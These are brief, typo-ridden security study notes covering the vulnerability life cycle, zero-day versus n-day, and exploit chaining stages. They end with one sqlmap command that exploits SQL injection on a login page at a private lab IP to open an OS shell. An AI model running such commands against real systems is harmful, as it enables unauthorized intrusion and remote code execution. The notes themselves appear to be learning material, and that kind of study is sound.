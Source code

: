 # Weaponization
- Vulnerability life cycle, DOD iplemented implemented VDP https://www.dc3.mil/Missions/Vulnerability-Disclosure/Vulnerability-Disclosure-Program-VDP/ .
- Product launched.
- Vulnerability Discovered.
- Development of POC.
- Dev of patch.
- Patch Released.
- Patch Applied.
- 0-day, n-day means patch has been released, n number of days patch released.

# Exploit chaining
- use multiple exploit.
- Recon, initial exploit, Priv Esc, Perisstence, Lateral Move, RCE.

<!--StartFragment-->

sqlmap -u "http://10.10.11.109/ai/includes/user\_login.php?email=test%40chatai.com\&password=123" -p email --os-shell

<!--EndFragment-->
